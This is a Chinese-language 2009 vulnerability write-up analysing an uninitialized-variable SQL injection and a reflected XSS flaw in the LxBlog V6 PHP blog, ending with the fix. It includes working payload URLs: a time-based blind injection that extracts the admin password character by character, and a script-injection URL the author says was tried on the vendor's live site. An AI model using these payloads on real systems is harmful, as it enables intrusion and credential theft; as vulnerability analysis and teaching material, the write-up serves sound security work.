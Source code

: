 ```yaml
---
title: 浅析LxBlog V6变量未初始化漏洞
description: 《浅析LxBlogV6变量未初始化漏洞》作者：Flyh4t本文已经发表在黑客防线,转载请署名Lxblog是PHPWind开发的一套基于PHP+MySQL数据库平台架构的多用户博客系统，强调整站与用户个体间的交互，拥有强大的个人主页系统、独立的二级域名体系、灵活的用户模板系统、丰富的朋友圈和相册功能。但是该blog系统在安全性上并不让人满意，本文就来分析lxblog一个变量未初始化造成的sql注入漏洞。
date: 2009-03-24 10:25:30
category: 漏洞信息
tags: ['LxBlog', '漏洞信息', '注入']
post_id: 823
alias: LxBlog-V6-Uninitialized-variable-vulnerability
ViewNums: 3144
---
```


《[浅析LxBlog V6变量未初始化漏洞](/blog/lxblog-v6-uninitialized-variable-vulnerability)》作者：[Flyh4t](http://bbs.wolvez.org/post/174/)

本文已经发表在黑客防线,转载请署名

Lxblog 是 PHPWind 开发的一套基于 PHP+MySQL 数据库平台架构的多用户博客系统，强调整站与用户个体间的交互，拥有强大的个人主页系统、独立的二级域名体系、灵活的用户模板系统、丰富的朋友圈和相册功 能。但是该blog系统在安全性上并不让人满意，本文就来[分析lxblog一个变量未初始化造成的sql注入漏洞](/blog/lxblog-v6-uninitialized-variable-vulnerability)。

我们先来分析一下这个漏洞，看代码：

=======================code==================================
/user/tag.php
```php
<?php
!function_exists('usermsg') && exit('Forbidden');
!in_array($type,$item_type) && exit;
//$type、$item_type均没有初始化
require_once(R_P.'mod/charset_mod.php');
foreach ($_POST as $key => $value) {
    ${'utf8_'.$key} = $value;
    ${$key} = $db_charset != 'utf-8' ? convert_charset('utf-8',$db_charset,$value) : $value;
}

if ($job == 'add') {
    ……//省略部分代码
}elseif($job=="modify"){
    $tagnum="{$type}num";
    $touchtagdb=$db->get_one("SELECT k.tags,i.uid FROM pw_{$type} k LEFT JOIN pw_items i ON i.itemid=k.itemid WHERE k.itemid='$itemid'");
    //$type带入查询语句操作数据库
    $touchtagdb['uid']!=$admin_uid && exit;
……//省略部分代码
```
=======================code==================================

当 然，在文件的第一行有 !function_exists('usermsg') && exit('Forbidden'); 这样一段代码的限制，我们不能直接访问该文件，但是可以通过user_index.php来include这个文件执行，看具体代码

=======================code==================================
//user_index.php
```php
<?php
……//省略部分代码
require_once(R_P.'user/global.php');
require_once(R_P.'user/top.php');

if (!$action) {
    ……//省略部分代码
} elseif ($action && file_exists(R_P."user/$action.php")) {
    $basename = "$user_file?action=$action";
    require_once(Pcv(R_P."user/$action.php"));
   //通过提交$action=tag即可以调用到存在漏洞的文件
}
……//省略部分代码
```
=======================code==================================

看到这个地方，应该已经可以触发该漏洞了，但是依然要考虑到是否会受到register_global的影响，幸好user_index.php在开始的时候包含了user/global.php这个文件，看看这个文件为我们提供了什么

=======================code==================================
//user/global.php
```php
<?
……//省略部分代码
if (!in_array($action,array('blogdata','comment','itemcp','post','userinfo'))) {
    //'blogdata','comment','itemcp','post','userinfo','global','top'
//我们提交的action=tag，不在上面这个数组里面，可以触发下面的代码成功绕过register_global的影响
    foreach ($_POST as $_key => $_value) {
        !ereg('^\_',$_key) && strlen(${$_key})<1 && ${$_key} = $_POST[$_key];
    }
    foreach ($_GET as $_key => $_value) {
        !ereg('^\_',$_key) && strlen(${$_key})<1 && ${$_key} = $_GET[$_key];
    }
}
……//省略部分代码
```
=======================code==================================

通过上面的分析，我们已经可以成功控制$type和$item_type的值了，但是还要注意两个地方：

第一个地方是要满足 in_array($type,$item_type)，我们通过直接将$type和$item_type[]赋值为相同变量即可

第二个地方是要注意我们注射的语句
```
$touchtagdb=$db->get_one("SELECT k.tags,i.uid FROM pw_{$type} k LEFT JOIN pw_items i ON i.itemid=k.itemid WHERE k.itemid='$itemid'");
```
综合以上，我们构造出来盲注的代码如下

=======================poc==================================
```
//判断uid=1的用户的密码第一位的ASCII值是否大于0
http://blog.xxx.com/user_index.php?action=tag&job=modify&type=blog k LEFT JOIN pw_user i ON 1=1 WHERE i.uid =1 AND if((ASCII(SUBSTRING(password,1,1))>0),sleep(10),1)/*&item_type[]=blog k LEFT JOIN pw_user i ON 1=1 WHERE i.uid    =1 AND if((ASCII(SUBSTRING(password,1,1))>0),sleep(10),1)/*
```
=======================poc==================================

通过浏览器返回的时间来判断是否猜解正确，如果是正确的话，浏览器返回的比较慢，近似假死状态，否则返回的就比较正常。使用二分法不断猜解即可。另外，如果 数据库版本较低，可以使用benchmark函数来盲注，具体的expliot就不提供了，有需要的可以自己写个代码跑跑，不是什么难事。

另外我们看下lxblog的数据库容错代码

=======================code==================================
```
function DB_ERROR($msg) {
        global $db_blogname,$REQUEST_URI;
        $sqlerror = mysql_error();
        $sqlerrno = mysql_errno();
        //ob_end_clean();
        echo"<html><head><title>$db_blogname</title><style type='text/css'>P,BODY{FONT-FAMILY:tahoma,arial,sans-serif;FONT-SIZE:11px;}A { TEXT-DECORATION: none;}a:hover{ text-decoration: underline;}TD { BORDER-RIGHT: 1px; BORDER-TOP: 0px; FONT-SIZE: 16pt; COLOR: #000000;}</style><body>
";
        echo"<table style='TABLE-LAYOUT:fixed;WORD-WRAP: break-word'><tr><td>$msg";
        echo"<br><br><b>The URL Is</b>:<br>http://$_SERVER[HTTP_HOST]$REQUEST_URI";
        echo"<br><br><b>MySQL Server Error</b>:<br>$sqlerror  ( $sqlerrno )";
        echo"<br><br><b>You Can Get Help In</b>:<br><a target=_blank href=http://www.phpwind.net><b>http://www.phpwind.net</b></a>";
        echo"</td></tr></table>";
        exit;
    }
```
=======================code==================================

函数直接将造成数据库错误的url返回给客户端，对输出未作任何过滤，造成了xss漏洞，下面是我对官方的测试：

=======================poc==================================
```
http://www.lxblog.net/user_index.php?action=tag&job=modify&type=<script>alert(/xss/)</script>&item_type[]=<script>alert(/xss/)</script>
```
=======================poc==================================

Lxblog 的漏洞就分析到这里了，这个漏洞的修补也很简单，只要在数据库查询语句前面将变量$item_type赋值为指定的数组就可以了。网上的PHP程序有不少 都存在类似的漏洞，由于变量没有被正确的初始化，从而导致攻击者可以控制变量被改变程序的流程执行一些非法操作。其实这个问题并不复杂，保持一个良好的编 码习惯，正确初始化类和变量即可杜绝此类漏洞。

